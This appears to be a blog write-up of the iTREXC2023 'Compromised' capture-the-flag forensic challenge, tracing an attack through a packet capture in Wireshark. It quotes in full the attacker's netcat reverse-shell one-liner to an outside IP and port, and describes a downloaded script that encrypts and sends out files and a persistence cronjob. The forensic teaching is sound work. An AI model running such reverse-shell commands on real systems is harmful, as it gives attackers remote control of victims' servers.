 ```yaml
---
layout: post
title: "iTREXC2023: Compromised"
date: 2023-10-22
categories:
  - CTF WriteUp
---
```


This "Compromised" challenge is one of the forensic challenges in Cyber Security Challenge competition organized by iTREXC (4th International Innovation, Technology & Research Exhibition and Conference). It is in Linux Forensic category and the difficulty is Medium.

For this challenge, we were given a `.pcap` (packet capture) file named `traffic.pcap`. We can open the file with Wireshark. We initially filter for HTTP traffic. We can see that the attacker make a GET request to the web server asking for `/images/date.php`.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-filter.png){:.align-center}

The attacker then exploit a command injection vulnerability through `/images/date.php` (or it may be a webshell used by the attacker to get access to the web server, which means that the attacker already compromised the web server). The reverse shell payload establish a connection to an IP address `159.223.43.45` on port `4443`.

- `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 159.223.43.45 4443 >/tmp/f`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-post.png){:.align-center}

We can follow the TCP stream of the reverse shell connection :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-follow-tcp-stream.png){:.align-center}

We can see that the compromised server established a connection to `159.223.43.45`, which we believe to be an attacker's remote machine. Following the TCP stream of the reverse shell connection, we can see what's the attacker does in the compromised server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-tcp-stream.png){:.align-center}

The attacker navigate to `/home/nbs` and then download a file (`jahak.sh`) from the attacker's remote server to the compromised server. The `jahak.sh` file is a bash script that is used by the attacker to encrypt the document files in the compromised server using XOR encryption and transfer the files to the attacker's remote server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-get.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak-http.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak.png){:.align-center}

The attacker encrypt the `flag.txt` and  `important.txt` file :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-encrypted-file.png){:.align-center}

The attacker create a cronjob on the compromised server to automatically run the malicious script.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-path.png){:.align-center}

There is one question in this challenge that ask for hash of the webshell that being access by the attacker :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object-file.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-ls.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-file-hash.png){:.align-center}
